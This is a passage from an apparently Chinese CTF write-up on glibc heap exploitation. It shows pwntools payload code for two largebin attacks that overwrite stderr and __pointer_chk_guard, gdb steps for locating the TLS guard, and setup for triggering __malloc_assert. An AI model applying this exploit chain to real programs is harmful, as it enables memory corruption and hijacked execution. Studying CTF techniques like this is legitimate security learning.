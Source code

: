 构造0<2，free掉后申请一块较小的chunk，将2放入largebin以获取heap基址

注意输出存在截断，可以先把2的fd,bk部分填满，事后记得要修复

注意largbin大小0x440~0x480为一个范围，为后续largebin attack起见，应注意预留大小

### largebin attack*2

largebin attack的利用方式：

1. 将一个较大的、largebin中的chunk的bk_nextsize覆盖为[target-0x20]
2. 将一个较小的chunk放入**同一个**largebin，触发unlink
3. 此时[target]的内容被修改为较小chunk的地址

```python
#attack stderr
payload = p64(fixed_heap_fdbk)*2 + p64(heap_base+0x880) + p64(stderr_addr-0x20)#构造的同时顺便修复
edit(2,32,payload)
delet(5)
sendit()
#attack point_guart
add(7,0x430)
payload = p64(fixed_heap_fdbk)*2 + p64(heap_base+0x880) + p64(point_guard-0x20)
edit(2,32,payload)
delet(7)
sendit()
```

将5free掉，放入largebin，打出一次attack，修改stderr

又通过7将5申请回来，（这里申请之前没有修复，导致stderr指向了2）

随后再更改2，再free掉7（5），打出第二次attack，修改point_guard

### __pointer_chk_guard

该值存在于fs:0x30

tls基址查看方式为`fsbase`或`tls`（pwngdb)，加上0x30即为guard值

也可以直接用gdb

```shell
(gdb) call arch_prctl(0x1003, $rsp - 0x8)    
$2 = 0 
(gdb) x /gx $rsp - 0x8
0x7fffffffe6e8: 0x00007ffff7fe0700   => IA32_FS_BASE
```

本地gdb调试时该值与libc偏移可能改变，调试时可以先关闭aslr

```shell
$ sudo sysctl -w kernel.randomize_va_space=0
```

### 修复largebin与准备触发__malloc_assert

```python
#largbin fix
payload = p64(heap_base+0x1120)+p64(libc_base+0x1f30c0)+p64(heap_base+0x1120)*2
edit(2,32,payload)
payload = p64(libc_base+0x1f30c0)+p64(heap_base+0x880)*3
edit(7,32,payload)
sendit()
#prepare assert
add(8,0x430)
delet(6)
add(9,0x440)
add(10,0x410)
edit(6,0x420,cyclic(0x418)+p64(0x10))
sendit()
```